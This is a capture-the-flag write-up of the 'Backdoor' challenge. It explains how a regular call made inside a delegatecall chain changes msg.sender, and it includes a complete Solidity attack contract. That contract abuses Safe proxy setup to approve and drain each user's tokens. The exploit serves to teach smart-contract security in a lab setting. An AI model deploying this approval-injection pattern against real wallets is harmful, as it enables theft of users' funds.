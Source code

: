 # Solving "The BackDoor" - My Journey 🕵️‍♂️

## Thoughts:

This challenge demonstrates how a seemingly correct setup can become a critical vulnerability. This attack exploits the **subtle** differences between _regular calls_ and _delegatecalls_ in Solidity, showing how one regular call in a chain of delegatecalls can completely change the execution context.

### The Core Problem

The challenge lies in gaining _approval_ from `proxy contracts` to transfer tokens that were deposited by the `registry`. The key insight is understanding how **msg.sender** changes (or doesn't change) through different call patterns.

### Attempted Solution #1: Direct ERC20.approve() Call

**SafeProxyFactory**

- call `SafeProxy.setup()`
- fallback
- delegatecall to `Singleton.setup()`
- delegatecall to `ERC20.approve()`

**Result**: `msg.sender` in `ERC20::approve()` = `SafeProxyFactory` ❌

_This doesn't work because delegatecall preserves the original caller throughout the chain._

### The Working Solution: Helper Contract Pattern

**SafeProxyFactory**

- call `SafeProxy.setup()`
- fallback
- delegatecall to `Singleton.setup()`
- delegatecall to `BackdoorAttack.approveFromProxy()`
- `BackdoorAttack` makes _REGULAR CALL_ to `ERC20.approve()`

**Result**: `msg.sender` in `ERC20::approve()` = Proxy address ✅

### Why the Helper Contract Works

When the Safe singleton delegates to our helper contract:

```javascript
// BackdoorAttack.approveFromProxy() - running in proxy context via delegatecall
function approveFromProxy(address token, address spender, uint256 amount) external {
    // msg.sender = SafeProxyFactory (preserved from original call)
    // address(this) = Proxy address (delegatecall context)

    // When we make this call:
    IERC20(token).approve(spender, amount);
    // This is a REGULAR CALL from the BackdoorAttack to ERC20 where the msg.sender becomes the immediate caller, in our case - proxy contract
}
```

### The Critical Insight

The helper contract (`BackdoorAttack`) code runs in the proxy's context due to **delegatecall**, but when the helper makes a regular call to _ERC20_, the call originates from `address(this)` (which is the proxy address in the delegatecall context).

<details>
<summary>The Complete Attack</summary>

```javascript
contract BackdoorAttack {
    SafeProxyFactory immutable i_factory;
    WalletRegistry immutable i_registry;
    Safe immutable i_singleton;
    address[] s_users;
    DamnValuableToken immutable i_token;
    address immutable i_recovery;

    constructor(
        SafeProxyFactory walletFactory,
        Safe singletonCopy,
        WalletRegistry walletRegistry,
        address[] memory users,
        DamnValuableToken token,
        address recovery
    ) {
        i_factory = walletFactory;
        i_singleton = singletonCopy;
        i_registry = walletRegistry;
        s_users = users;
        i_token = token;
        i_recovery = recovery;
    }

    function attack() external {
        for (uint256 i = 0; i < s_users.length; i++) {
            address[] memory owner = new address[](1);
            owner[0] = s_users[i];
            bytes memory helperData = abi.encodeCall(this.approveFromProxy, (address(i_token), address(this), 10e18));

            bytes memory initializer = abi.encodeCall(
                Safe.setup, (owner, 1, address(this), helperData, address(0), address(0), 0, payable(address(0)))
            );
            address proxy = address(i_factory.createProxyWithCallback(address(i_singleton), initializer, 0, i_registry));
            i_token.transferFrom(proxy, i_recovery, 10e18);
        }
    }

    function approveFromProxy(address token, address spender, uint256 amount) external {
        ERC20(token).approve(spender, amount);
    }

}
```

</details>

## Key Learnings

### The Delegatecall Context Rule

- **Delegatecall preserves:** `msg.sender`, `msg.value`, and `caller's context`
- **Delegatecall changes:** `address(this)` to the caller's address
- **Regular calls reset:** `msg.sender` becomes the immediate caller
